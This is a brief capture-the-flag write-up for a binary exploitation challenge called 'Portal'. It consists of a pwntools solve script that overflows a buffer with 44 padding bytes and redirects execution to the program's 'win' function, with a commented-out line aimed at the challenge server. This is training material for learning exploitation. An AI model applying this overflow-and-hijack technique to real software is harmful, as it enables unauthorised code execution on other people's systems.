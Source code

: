 # Portal

author: awesome10billion

category: pwn

## Solve script

solve.py
```python
from pwn import *

# Set up the context for the binary
context.binary = './portal'
context.log_level = 'debug'

elf = ELF('./portal')
# Start the process
p = process('./portal')
#p = remote('0.cloud.chals.io', 13188)
p.sendline(b'A'*44 + p64(elf.symbols.win))
p.interactive()
```